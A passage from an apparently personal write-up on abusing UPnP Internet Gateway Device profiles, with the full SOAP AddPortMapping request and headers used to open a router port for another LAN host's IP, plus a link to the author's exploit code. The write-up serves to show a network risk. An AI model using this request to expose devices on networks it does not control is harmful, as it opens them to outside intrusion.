 **Response:**
With HTTP libraries in Python, I was able to get the XML files from both the locations and parse for the UPnP device which has IGD profile.
![SSDP description file](https://i.imgur.com/06NB8qb.png)

**_A little about UPnP schemas:_** The UPnP forum define the UPnP template for various profiles. InternetGatewayDevice:1/2 is one of such template. The Document can be obtained [here](http://upnp.org/specs/gw/UPnP-gw-InternetGatewayDevice-v2-Device.pdf). The IGD Schemas of interest here provide options to open ports, set/get connection types, get external IP, DNS settings, etc.

##### Step 2: Description:
The port opening part that I was concerned above was service profile under `WANIPConnection:1`. I was able to extract the `<SCPDURL>` which points to the XML location of this profile and get the list of arguments required to pass to the device to open up the port.

##### Step 3: UPnP Control:
The control requests to the device should be made using SOAP requests. SOAP requests are HTTP requests to the device where the body is in XML format where each argument is passed in respective tags.
```xml
<?xml version="1.0" ?>
<s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
  <s:Body>
        <u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
            <NewRemoteHost>0.0.0.0</NewRemoteHost>
            <NewExternalPort>4000</NewExternalPort>
            <NewProtocol>TCP</NewProtocol>
            <NewInternalPort>4000</NewInternalPort>
            <NewInternalClient>192.168.0.20</NewInternalClient>
            <NewEnabled>1</NewEnabled>
            <NewPortMappingDescription>UPnP Port Mapping Exploit</NewPortMappingDescription>
            <NewLeaseDuration>0</NewLeaseDuration>
          </u:AddPortMapping>
        </s:Body>
      </s:Envelope>
   ......
```

**_This also needs a POST request header_**
```json
{'SOAPAction': '"urn:schemas-upnp-org:service:WANIPConnection:1#AddPortMapping"', 'Content-Type': 'text/xml'}
 ```

The request above responded with a `200 Success` code. I was able to verify the same by sending a request to `get all port mapping entries command` of UPnP `WANIPConnection:1` schema

![Response](https://i.imgur.com/L6r3YUa.png)

**The scary part was, the IP I used to open up the port was not even mine**. Think of all the ways an attacker could exploit. A simple desktop malware could expose all the devices in the network to the outside world, Essentially handling the complete control to the hacker.

You can find the complete code I used to perform the exploit in my git hub repository; [https://github.com/dhishan/UPnP-Hack](https://github.com/dhishan/UPnP-Hack)
